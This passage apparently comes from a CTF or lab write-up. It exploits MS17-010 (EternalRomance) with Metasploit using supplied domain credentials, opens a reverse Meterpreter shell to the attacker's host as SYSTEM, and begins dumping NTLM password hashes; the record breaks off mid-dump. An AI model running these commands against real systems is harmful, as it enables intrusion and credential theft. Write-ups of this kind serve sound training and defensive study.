 Yep, it's vulnerable to MS17-010. This will give me 2 choices:

* MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
* MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

`nmap` suggested that this host is Windows 2008 R2 - 2012. EternalBlue can be use against Windows 7 and Windows Server 2008 R2 while EternalRomance works on all OS's up to Windows Server 2016. In this case, I used EternalRomance.

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_psexec
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 192.168.240.13
RHOSTS => 192.168.240.13
msf6 exploit(windows/smb/ms17_010_psexec) > set SERVICE_NAME godek2
SERVICE_NAME => godek2
msf6 exploit(windows/smb/ms17_010_psexec) > set SMBDomain MYCOMS
SMBDomain => MYCOMS
msf6 exploit(windows/smb/ms17_010_psexec) > set SMBUser ali
SMBUser => ali
msf6 exploit(windows/smb/ms17_010_psexec) > set SMBPass P@ssw0rd123!
SMBPass => P@ssw0rd123!
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.0.200.2:4444 
[*] 192.168.240.13:445 - Authenticating to 192.168.240.13 as user 'ali'...
[*] 192.168.240.13:445 - Target OS: Windows Server 2012 R2 Standard Evaluation 9600
[*] 192.168.240.13:445 - Built a write-what-where primitive...
[+] 192.168.240.13:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.240.13:445 - Selecting PowerShell target
[*] 192.168.240.13:445 - Executing the payload...
[+] 192.168.240.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 192.168.240.13
[*] Meterpreter session 1 opened (10.0.200.2:4444 -> 192.168.240.13:49750) at 2020-11-26 23:31:47 +0800

meterpreter >
```

Now I'm inside. Firstly, I need to check what user I'm.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

I'm as `SYSTEM`. To get the Administrator's NTLM hash, I used `post/windows/gather/smart_hashdump`, like the previous challenge.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/ms17_010_psexec) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against PROD-FSRV5633
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/ahmad/.msf4/loot/20201126233811_default_192.168.240.13_windows.hashes_939066.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 0790a788d7c5ef20cb80b176f62f2123...
[*] 	Obtaining the user list and keys...
```
